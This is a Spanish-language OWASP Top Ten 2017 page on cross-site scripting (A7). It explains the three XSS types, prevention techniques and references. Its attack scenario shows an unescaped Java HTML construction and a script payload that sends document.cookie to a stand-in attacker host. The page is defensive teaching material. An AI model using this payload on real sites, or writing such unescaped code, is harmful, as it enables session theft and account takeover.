 ```yaml
---

document: OWASP Top Ten 2017 (es)
year: 2017
order: 13
en: A7:2017-Cross-Site Scripting (XSS)
title: A7:2017-Secuencias de Comandos en Sitios Cruzados (XSS)
lang: es
layout: full-width-document
author:
contributors: vtamara
tags: OWASP Top Ten 2017 (es), Top Ten, A7:2017, xss, es
exploitability: 3
prevalence: 3
detectability: 3
technical: 2
redirect_from:
  - 2017/es/A7-Cross-Site_Scripting_(XSS)

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}

Existen herramientas automatizadas que permiten detectar y explotar las
tres formas de XSS, y también se encuentran disponibles kits de
explotación gratuitos.

{%- include risk_description.html pos="mid" -%}

XSS es la segunda vulnerabilidad más frecuente en OWASP Top 10, 
y se encuentra en alrededor de dos tercios de todas las aplicaciones.<br>
Las herramientas automatizadas pueden detectar algunos problemas XSS 
en forma automática, particularmente en tecnologías maduras como PHP,
J2EE / JSP, y ASP.NET.

{%- include risk_description.html pos="right" -%}

El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en
DOM, y severa para XSS Almacenado, que permite ejecutar
secuencias de comandos en el navegador de la víctima, para robar
credenciales, secuestrar sesiones, o la instalación de software malicioso
en el equipo de la víctima.

{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}

Existen tres formas usuales de XSS para atacar a los navegadores de
los usuarios<br>
* **XSS Reflejado**: la aplicación o API utiliza datos sin validar,
suministrados por un usuario y codificados como parte del HTML o
Javascript de salida. No existe una cabecera que establezca la
[Política de Seguridad de Contenido (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). 
Un ataque exitoso permite al atacante ejecutar comandos arbitrarios (HTML y
Javascript) en el navegador de la víctima. Típicamente el usuario
deberá interactuar con un enlace, o alguna otra página controlada
por el atacante, como un 
[ataque de abrevadero](https://es.wikipedia.org/wiki/Ataque_de_abrevadero), 
publicidad maliciosa, o similar.<br>
* **XSS Almacenado**: la aplicación o API almacena datos
proporcionados por el usuario sin validar ni sanear, los cuales
posteriormente son visualizados o utilizados por otro usuario o un
administrador. Usualmente es considerado como de riesgo de nivel
alto o crítico.<br>
* **XSS Basados en DOM**: los marcos de trabajo en JavaScript, aplicaciones de
página única o APIs incluyen datos dinámicamente, controlables
por un atacante. Idealmente, se debe evitar procesar datos
controlables por el atacante en APIs no seguras.<br>

Los ataques XSS incluyen el robo de la sesión, apropiación de la
cuenta, evasión de autentificación de múltiples pasos, reemplazo de
nodos DOM, inclusión de troyanos de autentificación, ataques contra el
navegador, descarga de software malicioso, registradores de teclas 
(_keyloggers_), y otros tipos de ataques al lado cliente.<br>


{%- include t10_subsection.html token="howToPrevent" pos="right" -%}

Prevenir XSS requiere mantener los datos no confiables
separados del contenido activo del navegador.<br>
* Utilizar marcos de trabajo seguros que, por diseño, automáticamente
codifican el contenido para prevenir XSS, como en Ruby on Rails o
React JS. Conozca la limitación de  la protección XSS de cada marco de 
y maneje de forma adecuada los casos de usos no cubiertos.<br>
* Escapar datos de requerimientos HTTP no confiables con base en el contexto,
en la salida HTML (cuerpo, atributos, JavaScript,
CSS, o URL), para resolver vulnerabilidades de
XSS Reflejado y XSS Almacenado. 
La [hoja de trucos OWASP para prevenir XSS'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
tiene detalles sobre las técnicas para escapar requeridas.<br>
* Aplicar codificación sensitiva al contexto, cuando se modifica
el documento en el navegador del cliente, ayuda a prevenir
DOM XSS. Cuando no se puede evitar, se pueden aplicar técnicas para 
escpar sensitivas al contexto para la API del navegador como se describe en
[la hoja de trucos OWASP para evitar XSS DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).<br>
* Habilitar una [Política de Seguridad de Contenido (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
es una defensa profunda para la mitigación de vulnerabilidades
XSS. Es efectiva si no hay otras vulnerabilidades que
permitan colocar código malicioso vía inclusión de archivos
(e.g vulnerabilidad de [cruce de directorio](https://es.wikipedia.org/wiki/Directory_traversal) que sobreescriba, o librerías vulnerables
provenientes de Redes de Distribución de Contenidos (CDN)).<br>

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}

**Escenario 1**: la aplicación utiliza datos no confiables en la
construcción del código HTML sin validarlos ni escapar:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}


El atacante modifica el parámetro “CC” en el navegador por:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}


Este ataque causa que el identificador de sesión de la víctima
sea enviado al sitio web del atacante, permitiéndole secuestrar
la sesión actual del usuario.
**Nota**: los atacantes también pueden utilizar XSS para anular
cualquier defensa contra Falsificación de Peticiones en Sitios
Cruzados (CSRF) que la aplicación pueda utilizar.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode and Escape Data](/www-project-proactive-controls/v3/en/c4-encode-escape-data)<br>
* [OWASP Proactive Controls: Validate All Inputs](/www-project-proactive-controls/v3/en/c5-validate-inputs)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder) ([old wiki](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project))<br>
<br>
**Externos**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}
